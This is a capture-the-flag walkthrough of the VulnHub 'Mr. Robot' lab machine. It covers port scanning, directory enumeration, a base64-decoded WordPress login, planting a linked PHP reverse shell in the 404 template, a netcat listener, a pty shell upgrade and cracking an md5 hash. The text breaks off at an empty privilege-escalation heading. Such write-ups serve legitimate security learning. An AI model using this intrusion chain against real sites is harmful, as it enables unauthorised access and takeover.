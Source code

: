 # Mr. Robot

- Attacking machine : Linux kali
- Target machine : [Mr. Robot](https://www.vulnhub.com/entry/mr-robot-1,151/) by Leon Johnson on IP address 10.10.10.14

## Vulnerability analysis

### Port scan with `nmap` 

`nmap -T5 -A -p80,443 10.10.10.14`

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-04 13:22 EST
Nmap scan report for 10.10.10.14
Host is up (0.0010s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.23 seconds
```

Very few services, not even `ssh`. Just the fancy website.

### Directory enumeration with `gobuster`

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.10.14`

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.14
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/02/04 13:24:51 Starting gobuster
===============================================================
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/0 (Status: 301)
/video (Status: 301)
/feed (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
/%20 (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 403)
/0000 (Status: 301)
/IMAGE (Status: 301)
/wp-signup (Status: 302)
```

This time, many directories are found and some of them are interesting.

#### `/login` and `/wp-login`

The Wordpress login page (/login redirects to /wp-login).

#### `/0`

The Wordpress site

#### `/license`

A provocative CTF-like sentence inserted in order to distract us from the base64 string down the page : `ZWxsaW90OkVSMjgtMDY1Mgo=`

Which turns out to be a hopefully useful login : `elliot:ER28-0652`

#### `/robots`

A redirection to the `robot.txt` file which is very interesting :

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Thus, we get the first key at `/key-1-of-3.txt`.

We've also found a wordlist file `fsocity.dic` containing 858160 word (one per line), including the above mentioned elliot's password.

## Exploitation

We log into the Wordpress blog with elliot's credentials and it works, we're in :

![wp.PNG](wp.PNG)

We paste this [pentestingmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) reverse shell into the 404 template of the Appearance editor :

![reverse_shell](reverse_shell.PNG)

The ip is set to my attacking machine's and the port is 4444 so I can listen on it with netcat with the following command :

`nc -lvnp 4444`

We trigger the 404 template code by accessing a random URL (like `http://10.10.10.14/skmdfjdsmdfkj`) and we get the following shell :

![daemon_shell](daemon_shell.PNG)

We are logged in as the Wordpress daemon which shouldn't have lots of permissons.

First, I upgrade my shell with this command : `python -c 'import pty; pty.spawn("/bin/bash")'`

Then, we find the home of the user `robot` the daemon hasn't got the permission to read the second key, however there is a md5 hash of `robot`'s password which happens to be `abcdefghijklmnopqrstuvwxyz`, easily cracked with [crackstation.net](crackstation.net).

The second key is ours.

## Privilege Escalation

